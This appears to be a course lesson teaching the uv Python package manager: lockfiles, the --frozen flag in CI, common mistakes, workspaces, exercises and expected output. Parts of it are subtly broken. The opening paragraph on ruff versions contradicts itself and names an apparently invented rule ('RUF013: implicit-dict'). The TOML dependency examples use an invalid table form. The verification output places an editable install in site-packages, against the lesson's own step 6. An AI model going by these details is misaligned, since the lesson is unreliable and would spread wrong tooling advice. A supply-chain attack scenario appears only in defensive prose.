The `[tool.ruff]` section says nothing about *which* `ruff` version to use. The version is pinned in `[dependency-groups] dev = ["ruff>=0.7,<0.8"]` and recorded as an exact pin in `uv.lock`. The trap: a developer's local `uv sync` installs `ruff 0.7.9` (the latest 0.7.x at the time of their sync); CI's `uv sync --frozen` installs `ruff 0.7.4` (the version recorded in `uv.lock` at the time of the last lockfile commit). Ruff's rule set is *mostly* stable across patch versions, but new rules can be added and existing rules' behaviour can be tightened. The symptom: the developer runs `uv run ruff check` locally and sees zero violations; pushes to CI; CI's `uv run ruff check` fails with `RUF013: implicit-dict` (a rule added in 0.7.6) on a line the developer's local 0.7.9 also flagged — but the developer's 0.7.9 also flagged it as `RUF013`, so they "fixed" it differently, and now 0.7.4 in CI complains about the fix. The fix is *not* to align the versions manually (that is whack-a-mole); it is to **never run `uv sync` without `--frozen` in CI**. The developer's local `uv sync` (without `--frozen`) is *expected* to re-resolve and pick up newer patch versions — that is the point of the dev environment. CI's `uv sync --frozen` is *expected* to install the exact lockfile versions — that is the point of CI. The rule: developers can run newer patch versions locally (they get newer rules and lint fixes for free); CI runs the lockfile's pinned version (the rule set is *guaranteed* stable across the build). When the developer's local lint passes and CI's lint fails, the answer is `uv lock --upgrade ruff && uv sync` locally, *commit the new lockfile*, push — CI now runs the same 0.7.9 the developer had. The lockfile is the contract; the dev environment is the frontier.


## Execution Trace

Run the full session from a clean directory:

```bash
mkdir notesearch && cd notesearch
uv init --package --name notesearch --python 3.12
uv add typing-extensions
uv add --dev pytest==8.* pytest-cov ruff==0.7.* mypy
uv sync
uv run python -c "import notesearch; print(notesearch.__file__)"
uv run pytest --version
uv run ruff --version
```

What happens, in order:

1. **`mkdir notesearch && cd notesearch`** — creates the project directory and enters it.
2. **`uv init --package --name notesearch --python 3.12`** — `uv` checks if it has Python 3.12 available; if not, it downloads it. Then it writes `pyproject.toml`, `.python-version`, `src/notesearch/__init__.py`, `README.md`, `.gitignore`. It does *not* create `.venv/` yet.
3. **`uv add typing-extensions`** — `uv` reads `pyproject.toml`, adds `typing-extensions` to `[project.dependencies]`, resolves the transitive dependency tree (just `typing-extensions` itself in this case), writes `uv.lock`, creates `.venv/` if it doesn't exist, installs `typing-extensions`.
4. **`uv add --dev pytest==8.* pytest-cov ruff==0.7.* mypy`** — same as above but writes to `[dependency-groups.dev]`. The four packages are added and their transitive deps are resolved and installed.
5. **`uv sync`** — verifies that `.venv/` matches `uv.lock`. If everything is in sync (it should be, since `uv add` already installed), it does nothing or just prints a confirmation.
6. **`uv run python -c "import notesearch; print(notesearch.__file__)"`** — runs `python` inside `.venv/bin/python`. Imports `notesearch` (which is installed as an editable package, pointing at `src/notesearch/__init__.py`). Prints the file path.
7. **`uv run pytest --version`** — runs `pytest --version` inside `.venv/bin/pytest`. Prints `pytest 8.x.x`.
8. **`uv run ruff --version`** — runs `ruff --version`. Prints `ruff 0.7.x`.

## Common Mistakes

### Mistake 1: Forgetting `uv run` and using the system Python

```bash
# WRONG
python my_script.py # uses system Python, not the project's .venv
```

Your script runs but cannot find the project's dependencies. `ModuleNotFoundError: No module named 'pydantic'` even though you `uv add`ed it.

**What would happen if you ran `python script.py` instead of `uv run python script.py` after `uv add pydantic`?** The script would crash with `ModuleNotFoundError: No module named 'pydantic'`. Why? Because the bare `python` command on your `$PATH` is whatever interpreter the OS or your shell startup found first — typically the Homebrew Python, the system `/usr/bin/python`, or a different venv you activated last week. None of them are the project's `.venv/bin/python` that `uv sync` just populated with `pydantic`. **Why does `uv run` fix it?** Because `uv run` resolves the project root from the current directory, finds `.venv/bin/python`, and *uses that interpreter directly* — bypassing your `$PATH` entirely. The same script that crashes under bare `python` works under `uv run python` because `uv run` puts the right interpreter first.

**Warning — Fix: `uv run python my_script.py`. Or activate the venv with `source .venv/bin/activate`. The `uv run` form is shorter and works in CI.**


### Mistake 2: Editing `pyproject.toml` without re-syncing

```bash
# WRONG
# (edit pyproject.toml to add a new dependency)
python my_script.py # ModuleNotFoundError
```

If you edit `pyproject.toml` but forget to `uv sync`, your `.venv/` is stale.

**Warning — Fix: `uv sync` (or `uv run python ...`, which auto-syncs). The next `uv run` call will detect the staleness and re-sync.**


### Mistake 3: Committing `.venv/`

```bash
# WRONG
git add .venv/ # 50 MB of binaries committed
```

**Warning — Fix: add `.venv/` to `.gitignore` (the `uv init` command does this for you). Commit `uv.lock` *is* required — that's the source of truth.**


### Mistake 4: Pinning exact versions in `pyproject.toml`

```toml
# WRONG (over-pinned)
[project.dependencies]
pydantic = "==2.14.1" # pins exactly; no patch updates
```

Pinning exact versions in `pyproject.toml` makes you miss security patches. The lockfile already pins exact versions; `pyproject.toml` should specify *ranges*.

**Why doesn't `pyproject.toml` already pin exact versions, given the lockfile does?** Because `pyproject.toml` is the *contract* you publish to PyPI, while `uv.lock` is the *build artefact* you commit to git. A user running `pip install notesearch` (without `uv`) reads `pyproject.toml`'s ranges and resolves against whatever PyPI has *today* — including security patches released after you wrote your project. If you pinned `pydantic==2.14.1` in `pyproject.toml` and a critical security patch shipped in `2.14.2`, your user's `pip install` would lock them to the vulnerable version. The range `pydantic>=2.14,<3` lets the resolver pick the latest safe 2.x — your lockfile pins *your* tested 2.14.1 (so your tests run against exactly what you verified), and the next `uv lock --upgrade` bumps both the lockfile and your tests to the new patch. **What would happen if you let `pyproject.toml` ranges drift too wide — say `pydantic>=2`?** Your project would advertise compatibility with pydantic 2.0 (released 2023), which probably won't work given you use APIs added in 2.5+. Be specific: `>=2.14,<3` not `>=2`.

**Warning — Fix: use ranges in `pyproject.toml` (`pydantic = ">=2.14,<3"`), let `uv.lock` pin exact versions.**


### Mistake 5: Windows PowerShell quoting trap

```powershell
# WRONG (on PowerShell)
uv run python -c "print('hello')"
# Unexpected token 'hello' — PowerShell parses the double quotes
```

PowerShell's quoting rules differ from bash's. Inline Python with double quotes inside `-c` is a common trap.

**Warning — Fix: use single quotes for the outer PowerShell string, double for the inner Python:**

```powershell
uv run python -c 'print("hello")'
```
Or write a script file and run it: `uv run python script.py`.


### Mistake 6: `uv pip install` vs `uv add`

```bash
# WRONG (does not update pyproject.toml or uv.lock)
uv pip install requests
```

`uv pip install` is a *pip-compatible* command — it installs into the current venv but does not touch `pyproject.toml` or `uv.lock`. Useful for quick experiments; bad for project dependencies.

**Why does `uv` even have a `pip install` subcommand if `uv add` is the right answer?** Because `uv` is also a drop-in `pip` replacement for users who aren't ready to commit to the full project workflow. `uv pip install -r requirements.txt` works exactly like `pip install -r requirements.txt` but ~10x faster — no project, no lockfile, no `pyproject.toml`, just a venv getting packages installed. The footgun is using `uv pip install requests` *inside a project* and expecting `requests` to appear in `uv.lock` — it won't, because the `pip` interface doesn't touch the project's manifest. **What would happen if a teammate cloned your project after you used `uv pip install requests` instead of `uv add requests`?** Their `uv sync` would install only what's in `uv.lock`, not `requests`. They'd run the tests, hit `ModuleNotFoundError: No module named 'requests'`, and spend 30 minutes wondering why their `uv sync` "didn't install everything." The lockfile is the source of truth; `uv pip install` bypasses the lockfile; the lockfile has no idea what you installed.

**Warning — Fix: `uv add requests` for project deps. Reserve `uv pip install` for ad-hoc experiments.**


**Danger — How an attacker thinks — the supply chain bypass.**

`uv pip install` bypasses the lockfile, and bypassing the lockfile means bypassing the hash verification that is your last line of defense against a PyPI supply-chain attack. The realistic attack: a maintainer's PyPI publishing token is stolen (credential theft via a phishing email or a compromised CI runner); the attacker publishes a malicious `pydantic-core==2.20.2` (a new version that did not exist before) that exfiltrates `os.environ` (which on AWS Lambda and in Kubernetes pods contains cloud credentials) to an attacker-controlled endpoint. Your `pyproject.toml` says `pydantic-core>=2.20` (a wide range) and your `uv.lock` pins `pydantic-core==2.20.1` with a recorded `sha256`. `uv sync --frozen` installs exactly `2.20.1` (hash-verified) and the attacker's `2.20.2` is never fetched — the lockfile's pin and hash together form the cryptographic boundary. **But** if a developer, debugging locally, runs `uv pip install --upgrade pydantic-core` (because they read about a "performance fix" on a forum), they have just installed an un-hashed wheel into the project's `.venv/` — and the next `uv run pytest` runs their tests against it. The bypass is silent because `uv pip install` does not touch the lockfile. The defense-in-depth: (1) never use `uv pip install` inside a project — the lockfile is the only path through which packages enter `.venv/`; (2) in CI, run `uv sync --frozen` *before* any other command that could touch `.venv/`, so any prior local tampering is overwritten; (3) run `uvx pip-audit` as a CI step — it cross-references the installed tree against the OSV database of known-vulnerable package versions and fails the build on a hit. The hash in `uv.lock` is not bureaucratic overhead; it is the cryptographic boundary between your service and a compromised upstream.


### Mistake 7: The "wrong interpreter" diagnosis

A subtle failure mode: you run `uv run python script.py` and get a `ModuleNotFoundError` for a package you are *sure* you installed. The cause is almost always one of:

1. **You have a different Python installation shadowing `uv`'s.** Run `uv run python -c "import sys; print(sys.executable)"` and confirm the path is inside `.venv/`. If it points to `/usr/local/bin/python` or `C:\Python312\python.exe`, your `PATH` is wrong.
2. **The package is in a different dependency group.** If you `uv add --dev mypy` and then try to `import mypy` from production code, `uv sync` without `--group dev` will not have installed it.
3. **`uv.lock` is out of sync with `pyproject.toml`.** `uv run` should auto-sync, but if you have a broken `pyproject.toml` (e.g. invalid version specifier), the sync may fail silently. Run `uv sync` manually to see the error.

**Warning — Fix: the diagnostic flow is `uv run python -c "import sys; print(sys.executable, sys.version)"` first, then `uv sync` second, then read the lockfile third.**


**Danger — When this breaks — lockfile drift in CI is the silent killer.**

The "wrong interpreter" diagnosis above is for a *local* failure — you see `ModuleNotFoundError`, you fix your `PATH`. The production version is worse: CI passes, the Docker image builds, the deploy goes out — and the new endpoint 500s in prod because the lockfile was stale and uv silently re-resolved against a PyPI that had a different transitive dep version than the lockfile said. The failure mode: a contributor added `pydantic` to `pyproject.toml` and ran `uv add pydantic` (which updated the lockfile) but then, in the same PR, manually edited `pyproject.toml` to bump the range from `>=2.14,<3` to `>=2.14,<3.2` — and forgot to re-run `uv lock`. The lockfile still says `pydantic 2.14.1`; the manifest says `>=2.14,<3.2`. Locally, `uv sync` re-resolves (because `uv.lock` is stale relative to the manifest), picks `2.15.0` (which happens to break a parser), and the developer's tests pass (or fail and they fix locally). In CI *without* `--frozen`, the same silent re-resolution happens — and CI tests against `2.15.0`, not `2.14.1`. In CI *with* `--frozen`, uv refuses to re-resolve and the build fails immediately with "lockfile is out of date with pyproject.toml" — which is the only correct behaviour for a deploy pipeline. The lesson: never trust a CI step that says `uv sync` without `--frozen`. The two-character flag is the difference between "CI caught the lockfile drift" and "prod discovered the lockfile drift at 3am."


## Engineering Trade-Offs: global CLI tools with `uv tool install`

Sometimes you want a CLI tool (like `ruff`, `httpie`, `pgcli`) installed globally — not tied to any project. The pre-`uv` answer was `pipx install ruff`. The `uv` answer is `uv tool install ruff`.

```bash
uv tool install ruff
uv tool install mypy
uv tool install httpie
```

These go to `~/.local/share/uv/tools/<name>/` and the binaries go to `~/.local/bin/`. They are isolated from each other (each tool has its own venv) and isolated from your system Python.

**When to use `uv tool install` vs `uv add --dev`:**

- `uv add --dev ruff` — you want ruff *in this project* at a specific version, controlled by `uv.lock`. Recommended for project-specific lint configs.
- `uv tool install ruff` — you want ruff globally for ad-hoc use across projects. The version is whatever `uv tool` installed (use `uv tool upgrade ruff` to update).

For `notesearch`, we `uv add --dev ruff` because we want the project's lint config to be the source of truth. For a quick `ruff check some_random_file.py` outside any project, `uv tool install ruff` is fine.

**Tip — `uvx` is the one-shot form.**

`uvx ruff check file.py` runs `ruff` in an ephemeral environment — it downloads ruff if needed, runs the command, and discards the environment. Useful for "I just want to run this once." Equivalant to `pipx run`.


## Engineering Trade-Offs: uv vs the alternatives

### `uv` vs `poetry` vs `hatch` vs `pip` + `venv` + `pip-tools`

| Tool | Strengths | Weaknesses |
| --- | --- | --- |
| `uv` | Fast, single binary, lockfile, dev groups, Python version management, workspaces | Newer (2024) — ecosystem still maturing |
| `poetry` | Mature, large ecosystem, plugins | Slower (Python), single-env only, no workspaces |
| `hatch` | PEP 621-native, hatchling build backend | No lockfile; relies on `pip`'s resolver |
| `pip` + `venv` + `pip-tools` | Universal, no extra tool | Slow; multiple tools; no dev groups; harder reproducibility |

For 2026, `uv` is the recommended default for new Python projects. The academy standardises on it; you can use whatever you want at home.

**Production reality — migrating from `poetry` to `uv` without re-resolving.**

The most common migration story in 2026 is a team with a `poetry.lock` and a `pyproject.toml` written in poetry's `[tool.poetry.dependencies]` format (pre-PEP 621). The migration has two phases. (1) **Manifest conversion**: `uv add` rewrites `[tool.poetry.dependencies]` into `[project.dependencies]` and `[tool.poetry.group.dev.dependencies]` into `[dependency-groups]` — `uv`'s `uv add --dev` and friends do this transparently. The hand-editing path is to delete the `[tool.poetry.*]` sections and replace them with PEP 621 `[project.*]` sections, then run `uv lock` to regenerate the lockfile from scratch. (2) **Lockfile continuity**: the question is whether to *preserve* the exact transitive versions from `poetry.lock` or to *re-resolve* from scratch. Preserve: copy the versions from `poetry.lock` into `pyproject.toml` as exact pins (e.g. `pydantic==2.14.1`), run `uv lock` (which produces a `uv.lock` with the same versions plus hashes), then *loosen* the pins back to ranges (`pydantic>=2.14,<3`). Re-resolve: run `uv lock` directly against the ranges in `pyproject.toml` and accept whatever PubGrub picks today (which may be newer versions than `poetry.lock` had). The senior engineer's choice: *preserve* — the lockfile continuity guarantees the migration does not silently upgrade a transitive dep that breaks at runtime. The cost of re-resolving is a separate PR for `uv lock --upgrade` after the migration lands; the benefit is no surprises in the migration PR. The migration is mechanical; the discipline is in not bundling it with other changes.


### `pyproject.toml` ranges vs `uv.lock` exact versions

The split is:

- `pyproject.toml` says "I want `pydantic >= 2.14, < 3`" — a range.
- `uv.lock` says "the exact version installed is `pydantic 2.14.1` with hash `sha256:...`" — a pin.

This split is the *core* of reproducibility: `pyproject.toml` lets you upgrade via `uv lock --upgrade`, while `uv.lock` ensures that two machines with the same lockfile have the same environment.

### `dependency-groups` vs `optional-dependencies`

| Feature | `[dependency-groups]` (PEP 735) | `[project.optional-dependencies]` (PEP 621) |
| --- | --- | --- |
| Purpose | Development groups (dev, test, docs) | Runtime extras (redis, postgres) |
| Installed via | `uv sync --group dev` | `pip install notesearch[redis]` |
| Visible to users | No (not in PyPI metadata) | Yes (in PyPI metadata) |
| Use case | pytest, ruff, mypy | pydantic[email], sqlalchemy[asyncio] |

**Tip — Think like a senior engineer — the lockfile is the contract, not the speed.**

The reason `uv` wins is not that it is 10x faster than `pip`. Speed is the marketing line; the engineering line is **reproducibility**. A `uv.lock` committed to git is a *contract*: every machine that runs `uv sync --frozen` against that lockfile gets the byte-identical set of wheels — same versions, same hashes, same transitive tree — regardless of when they run it or what PyPI looks like that day. That contract is what makes "FastAPI 0.148.0" a verifiable claim, not an aspirational one. The senior engineer treats the lockfile the way a civil engineer treats a blueprint: it is the artefact that the build is held against, and any deviation is a defect. Three habits follow. **Commit `uv.lock` to git, always** — even for libraries (the lockfile is for *your* dev, test, and CI environments, not for downstream users, who resolve from your `pyproject.toml` ranges). **Run `uv sync --frozen` in CI and Docker, always** — the flag is two characters and it is the difference between "CI caught the drift" and "prod caught the drift." **Run `uv lock --upgrade` deliberately, on a schedule** — weekly is a common cadence; the PR it produces is a security review of every transitive version bump, and merging it without review is the same as running `pip install --upgrade` in prod blind. Speed is what made you try `uv`. Reproducibility is what makes you keep it.


## Workspaces: monorepos with multiple packages

If you have multiple Python packages that depend on each other (a monorepo), `uv` supports *workspaces*. A workspace is a root `pyproject.toml` with a `[tool.uv.workspace]` section listing the member packages:

```toml
# root pyproject.toml
[tool.uv.workspace]
members = ["packages/*"]
```

Each member has its own `pyproject.toml` in `packages/<name>/`. Members can depend on each other via `uv add notesearch-core --package notesearch-cli` (where `notesearch-core` is the dependency name and `notesearch-cli` is the package being modified). The intra-workspace dependencies are *editable* by default — changes in one member are immediately visible to the others.

For `notesearch` itself, we do not need a workspace (it is a single package). Section 18's portfolio projects will use workspaces to keep a CLI and a service in one repo.

**Tip — When to use a workspace.**

Use a workspace when (a) you have multiple deployable artifacts (CLI, service, library) that share code, (b) you want to share a single `.venv` for development, (c) you want CI to test all members together. Don't use a workspace for a single package — `uv init --package` is enough.


**Warning — Debugging — workspace member drift and the stale `.venv`.**

Workspaces share a single `.venv/` across all member packages, which is the productivity win — but it also means a change in *one* member is immediately visible to *all* other members, including the ones you did not touch. The failure mode: you `uv add requests --package notesearch-cli` (adding `requests` only to the CLI member), the shared `.venv/` is re-synced and `requests` is now importable from `notesearch-core` *too* — even though `notesearch-core`'s `pyproject.toml` does not declare `requests`. Locally, `import requests` from inside `notesearch-core` works (the shared venv has it). In CI, if the CI job does `uv sync --package notesearch-core` (installing only that member's declared deps), `import requests` fails with `ModuleNotFoundError`. The diagnostic: `uv tree --package notesearch-core` — if `requests` does not appear in the tree but the code imports it, you have a workspace-leak (a dep declared in one member and used in another). The fix: declare the dep in *every* member that uses it — the workspace does not share dependency *declarations*, only the *installed environment*. The senior engineer's rule for workspaces: the shared `.venv/` is for dev convenience, not for transitive dependency inheritance. Every member's `pyproject.toml` declares what that member *needs*; the shared venv happens to have more, but the lockfile's per-member dependency graph is the source of truth. CI that runs `uv sync --all-packages --frozen` catches the leak because the `--all-packages` flag forces a per-member resolution; the local `uv sync` is more permissive because the shared venv hides the leak.


## Exercises

### Beginner

1. Run `uv init --package` in a new directory. Inspect every file it creates. Read the `pyproject.toml` from top to bottom.
2. Add a real dependency (`uv add pydantic`) and inspect the resulting `uv.lock`. How many transitive dependencies did it pull in?
3. Run `uv run python -c "import sys; print(sys.executable)"`. Confirm the printed path is inside `.venv/`.

### Intermediate

4. Set up a `dev` and a `docs` dependency group. Add `sphinx` to `docs`. Use `uv sync --group docs` to install only the docs group.
5. Pin your project's Python version to 3.13 with `uv python pin 3.13`. Run `uv sync` — what happens?
6. Add a `[project.scripts]` entry point. Run `uv sync` then `uv run notesearch --help`. Confirm the entry point works.

### Advanced

7. Create a workspace with two packages (`notesearch-core` and `notesearch-cli`) where the CLI depends on the core. Use `uv add notesearch-core --package notesearch-cli`.
8. Write a `Makefile` (or `justfile`) that wraps `uv run pytest`, `uv run ruff check`, and `uv run mypy`. Discuss whether this is worth the indirection.
9. Use `uv export --format requirements-txt` to produce a `requirements.txt` for a Docker build. Discuss why `uv sync` is preferred inside Docker but `requirements.txt` may still be needed for some CI.
10. **Lockfile-diff forensics with `uv run`.** Run `uv add requests`, then `git diff uv.lock` and identify every package that changed version (not just `requests` itself — list every transitive dependency that moved). Now run `uv lock --upgrade requests` and re-diff. Verify the re-resolution produced a clean install with `uv sync --frozen && uv run python -c "import requests; print(requests.__version__)"` and confirm the printed version matches the lockfile's pinned version exactly. The skill being trained: reading a `uv.lock` diff the way a senior engineer reads a `git diff` — every changed pin is a *decision* that needs a justification.
11. **The `--frozen` lockfile-drift canary.** In a fresh `uv init --package` project, deliberately introduce drift: `uv add pydantic`, then `git stash uv.lock`, then `uv add typing-extensions` (which writes a *new* lockfile that does not include `pydantic`). Now restore the stashed lockfile (`git stash pop`) — the manifest says `pydantic` is a dep, the lockfile does not pin it. Verify the drift is caught: `uv sync --frozen` should fail with a clear error message. Verify the non-frozen fallback re-resolves: `uv sync` (without `--frozen`) should succeed and rewrite `uv.lock`. Verify the canonical command: `uv run python -c "import pydantic; print(pydantic.VERSION)"` should now print the resolved version. The lesson: `--frozen` is the CI guard; without it, the drift is silently self-healed — which is good for local dev and bad for CI reproducibility.
12. **The partial-sync recovery drill.** Simulate a partial-sync failure: `uv sync`, then `rm .venv/lib/python3.12/site-packages/typing_extensions-*` (delete one installed package from the venv manually, simulating a partial install). Verify the broken state: `uv run python -c "import typing_extensions"` should fail with `ModuleNotFoundError`. Now verify the recovery: `uv sync --reinstall` should re-link the missing wheel; then `uv run python -c "import typing_extensions; print(typing_extensions.__version__)"` should succeed and print the lockfile's pinned version. The skill being trained: recognising a partial-sync state, distinguishing it from a missing-dep state, and applying `--reinstall` instead of the nuclear `rm -rf .venv && uv sync`.
13. **The `uv tool` versus `uv add --dev` decision matrix.** Install `httpie` three ways and measure the differences: (a) `uv tool install httpie` (global, isolated venv per tool), then verify `uv tool run http --version` works but `uv run http --version` (from inside a project) fails with "command not found"; (b) `uvx http --version` (ephemeral one-shot), then verify no global install persists by running `which http` (should return nothing); (c) `uv add --dev httpie` (project-local), then verify `uv run http --version` works from inside the project. Document which form is appropriate for (i) a one-off API debugging session on a teammate's machine, (ii) a script that calls `http` from a project's CI, (iii) a developer who uses `http` daily across many projects. The skill: choosing the right isolation boundary for a CLI tool.
14. **The `uv run` interpreter canary.** In an existing project, verify that `uv run` resolves the correct interpreter by: (a) `uv run python -c "import sys; print(sys.executable)"` — confirm the path is inside `.venv/bin/`; (b) `uv run python -c "import notesearch; print(notesearch.__file__)"` — confirm the path is inside `.venv/.../site-packages/`, not the source tree; (c) introduce a deliberate `PATH` shadow by `export PATH=/usr/bin:$PATH` (system Python first) and re-run (a) — confirm `uv run` *still* resolves to `.venv/bin/python` despite the shadow. The skill: proving that `uv run`'s interpreter selection is independent of `$PATH`, which is the foundation of the academy's "never activate" convention.
15. **The CI-lockfile-integrity simulation.** In a fresh project, write a CI simulation that runs locally: `uv sync --frozen --no-group dev` (deps only), then `uv sync --frozen --group dev` (dev tools), then `uv run pytest --version && uv run ruff --version && uv run mypy --version`. Now deliberately break the lockfile by editing `pyproject.toml` to add `httpx` *without* running `uv add` (hand-edit the manifest). Verify each `--frozen` step fails with the same clear error message about lockfile drift. Restore the lockfile with `uv lock` and verify every command succeeds again. The skill: building muscle memory that `--frozen` is the single most important CI safety flag, and that the lockfile is the contract that makes the academy's version claims verifiable.

## Verification

Run:

```bash
uv --version # should print: uv 0.13.1
mkdir notesearch && cd notesearch
uv init --package --name notesearch --python 3.12
uv add typing-extensions
uv add --dev pytest==8.* pytest-cov ruff==0.7.* mypy
uv sync
uv run python -c "import notesearch; print(notesearch.__file__)"
uv run pytest --version
uv run ruff --version
uv run mypy --version
```

Expected output (modulo exact paths):

```
uv 0.13.1
...
<some path>/notesearch/.venv/lib/python3.12/site-packages/notesearch/__init__.py
pytest 8.4.x
ruff 0.7.x
mypy 1.13.x
```

If `uv --version` shows something other than 0.13.1, run `uv self update` and re-check.

## Previously Learned Here

- The dev dependencies (`pytest`, `ruff`, `mypy`) are what Lesson 09 (pytest Fundamentals) uses to run tests. The `mypy` strict mode from `[tool.mypy]` enforces the type hints from Lesson 05 at type-check time.
- The `[tool.ruff.lint]` rule `B` (bugbear) catches the mutable-default-argument bug from Lesson 01 and the `from __future__ import annotations` interactions from Lesson 05.
- The `[project.scripts]` entry point pattern is how Flask's `flask` command, FastAPI's `uvicorn` command, and pytest's `pytest` command are all wired.

## What's Next

In Lesson 08 — [[01-Python-Foundations/Project-Layout-and-Imports]] — we will look at the *layout* `uv init --package` produced: `src/notesearch/__init__.py`, the difference between `src/` and flat layouts, namespace packages, absolute vs relative imports, and how to break a circular import. Lesson 08 is the structural counterpart to this lesson — Lesson 07 set up the tooling; Lesson 08 sets up the files.

## Sources

- `uv` documentation — https://docs.astral.sh/uv/ (verified for 0.13.1, accessed 2026-10-15)
- `uv` install instructions — https://docs.astral.sh/uv/getting-started/installation/
- `uv` workflow guide — https://docs.astral.sh/uv/guides/projects/
- `uv` workspaces — https://docs.astral.sh/uv/concepts/projects/workspaces/
- PEP 518 (`pyproject.toml`) — https://peps.python.org/pep-0518/
- PEP 621 (`[project]` metadata) — https://peps.python.org/pep-0621/
- PEP 735 (`[dependency-groups]`) — https://peps.python.org/pep-0735/

## What We Learned

- `uv` 0.13.1 is the academy's package manager; it replaces `pip` + `venv` + `pip-tools` + `pyenv` with one Rust binary.
- `uv init --package --name X --python 3.12` scaffolds a new project with `pyproject.toml`, `.python-version`, `src/X/__init__.py`.
- `pyproject.toml` (PEP 621) holds the project's metadata, runtime deps (`[project.dependencies]`), dev groups (`[dependency-groups]`), and tool config (`[tool.X]`).
- `uv add` adds a runtime dep; `uv add --dev` adds a dev-group dep. Both update `uv.lock`.
- `uv.lock` is the source of truth — every transitive dep pinned to exact version + hash. Commit it; do not commit `.venv/`.
- `uv sync` installs the lockfile into `.venv/`. `uv run <cmd>` runs a command in the `.venv/` and auto-syncs if needed.
- `.python-version` (via `uv python pin 3.12`) is the developer's local Python preference; `requires-python` in `pyproject.toml` is the package's contract.
- `[project.scripts]` declares console-script entry points like `notesearch = "notesearch.cli:main"`.
- The five common mistakes: forgetting `uv run`, editing without sync, committing `.venv/`, over-pinning in `pyproject.toml`, PowerShell quoting traps.
- `notesearch` v7 is now a real `uv`-managed package. Lesson 08 explains the resulting file layout.
